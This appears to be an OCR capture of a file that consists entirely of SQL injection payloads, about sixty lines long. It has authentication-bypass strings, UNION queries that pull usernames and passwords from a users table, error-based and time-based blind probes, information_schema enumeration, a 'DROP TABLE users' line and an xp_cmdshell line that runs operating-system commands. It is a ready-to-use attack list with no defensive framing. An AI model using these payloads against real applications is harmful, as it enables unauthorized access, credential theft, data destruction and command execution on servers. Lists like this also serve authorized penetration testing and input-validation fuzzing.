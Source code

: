' OR '1'='1
" OR 1=1 --
admin' --
' OR 'x'='x
' OR 1=1#
' OR 1=1--
' OR 1=1/*
' OR '1'='1' --
OR 1=1
' UNION SELECT NULL,NULL,NULL --
' OR EXISTS(SELECT * FROM users WHERE username='admin') --
' OR SLEEP(5)--
'; EXEC xp_cmdshell('dir');--
' AND 1=1
' AND 1=2
' OR ''='
' OR 1=1 LIMIT 1--
' OR 'unusual'='unusual
1' or '1' = '1
' AND email IS NOT NULL --
'; DROP TABLE users;--
admin'--
' UNION SELECT username,password FROM users--
' AND EXISTS(SELECT * FROM users WHERE username='admin')--
1 AND 1=1
1 AND 1=2
admin' AND '1'='1
' OR 1=CONVERT(int, (SELECT @@version))--
' OR ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1))>90 --
' OR updatexml(null,concat(0x3a,(SELECT user())),null)--
' OR extractvalue(1,concat(0x7e,(SELECT database())))--
' OR 1=1 ORDER BY 1--
' ORDER BY 1--
' OR LENGTH(user())=8--
' OR MID(user(),1,1)='r'--
' OR user() LIKE 'root%'--
' UNION SELECT table_name,null FROM information_schema.tables--
' UNION SELECT column_name,null FROM information_schema.columns--
' OR (SELECT COUNT(*) FROM users) > 0 --
' AND (SELECT 1 FROM dual WHERE EXISTS (SELECT * FROM users)) --
' AND 1=CAST((SELECT @@version) AS INT)--
' UNION SELECT NULL,NULL,NULL--
' AND 1=(SELECT COUNT(*) FROM tablename)--
' AND SUBSTRING(@@version,1,1)='5'--
' AND (SELECT LENGTH(database()))>5 --
' AND ASCII(SUBSTRING(database(),1,1))=115 --
' AND EXISTS(SELECT * FROM admin) --
' OR 1=1 AND ''='
' AND 1=1 AND 1=1--
' AND 1=2 UNION SELECT null,null--
' OR NOT 1=0--
' AND name LIKE '%admin%'
' OR 1=1 UNION SELECT username,password FROM users--
' UNION SELECT NULL,version()--
' AND 1=(SELECT LENGTH(user()))--
' OR EXISTS(SELECT * FROM information_schema.tables)--
' AND 1=1 UNION ALL SELECT NULL,NULL,NULL--
' AND EXISTS(SELECT * FROM mysql.user)--
' OR (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>0 --
' OR 1=1 AND SLEEP(5)--
' OR BENCHMARK(1000000,MD5('test'))--
